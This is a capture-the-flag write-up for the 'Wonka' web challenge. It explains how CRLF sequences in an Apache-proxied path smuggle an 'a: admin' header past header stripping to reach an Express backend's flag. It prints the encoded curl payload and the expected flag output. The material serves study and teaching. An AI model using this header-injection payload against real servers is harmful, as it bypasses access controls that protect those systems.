 # **Wonka CTF Challenge Writeup: Header Injection via Path-Based Request Smuggling**

**Challenge URL**: `https://wonka.chal.cyberjousting.com`  
**Category**: Web Exploitation  
**Difficulty**: Medium    
---

## **Challenge Overview**
The challenge consists of a two-tier web application:
1. **Frontend**: Apache HTTP server (port `1337`)  
   - Proxies requests to `/name/<input>` to the backend.  
   - Strips all `A/a` headers using `RequestHeader unset`.  
2. **Backend**: Node.js/Express server (port `3000`)  
   - Returns the flag if the request contains the header `a: admin`.  
   - Otherwise, it echoes back a sanitized `name` parameter.

**Objective**: Retrieve the flag by bypassing the frontend's header stripping mechanism.

---

## **Vulnerability Analysis**
The key vulnerabilities are:
1. **Apache RewriteRule Misconfiguration**  
   - The `RewriteRule` forwards raw path input to the backend without sanitizing newlines (`\r\n`).  
   - This allows **HTTP header injection** via the path parameter.  

2. **Header Stripping Bypass**  
   - The `RequestHeader unset A/a` directive only removes headers from the original request, not those injected later.  

3. **Backend Trusts Raw Input**  
   - The Node.js backend processes the smuggled headers as part of the HTTP request.

---

## **Exploitation Steps**
### **Step 1: Crafting the Malicious Request**
To bypass the frontend’s header stripping, we inject a fake HTTP request inside the path parameter:
```
/name/test HTTP/1.1\r\n
Host: wonka.chal.cyberjousting.com\r\n
a: admin\r\n
\r\n
```
- Encoded in a `curl` command:
  ```bash
  curl -i "https://wonka.chal.cyberjousting.com/name/test%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a"
  ```

### **Step 2: Why This Works**
1. The `%20` (space) and `%0d%0a` (CRLF) characters trick Apache into interpreting the path as a new HTTP request.  
2. The backend receives:
   ```
   GET /?name=test HTTP/1.1
   Host: wonka.chal.cyberjousting.com
   a: admin
   ```
3. Since the `a: admin` header is present, the backend returns the flag.

---

## **Proof of Concept (PoC)**
```bash
curl -i "https://wonka.chal.cyberjousting.com/name/test%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a"
```
**Expected Output**:
```http
HTTP/2 200 OK
...
byuctf{i_never_liked_w1lly_wonka}
```

---
